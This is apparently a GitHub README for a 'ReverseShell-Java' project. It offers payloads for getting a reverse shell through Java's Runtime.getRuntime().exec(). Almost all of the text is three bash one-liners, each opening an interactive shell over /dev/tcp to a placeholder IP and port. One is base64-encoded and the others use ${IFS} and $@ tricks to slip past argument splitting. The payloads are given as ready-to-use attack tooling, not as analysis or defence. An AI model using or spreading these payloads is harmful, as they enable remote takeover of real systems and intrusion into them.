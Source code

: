# ReverseShell-Java
The project work on generating payloads to reverse shell in different contexts of java.


### Payloads in Runtime.getRuntime().exec(String command):
#### Method1:
bash -c {echo,**BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)**}|{base64,-d}|{bash,-i}
#### Method2:
bash -c bash${IFS}-i${IFS}>&/dev/tcp/**IP**/**PORT**<&1
#### Method3:
bash -c $@|bash 0 echo bash -i >& /dev/tcp/**IP**/**PORT** 0>&1

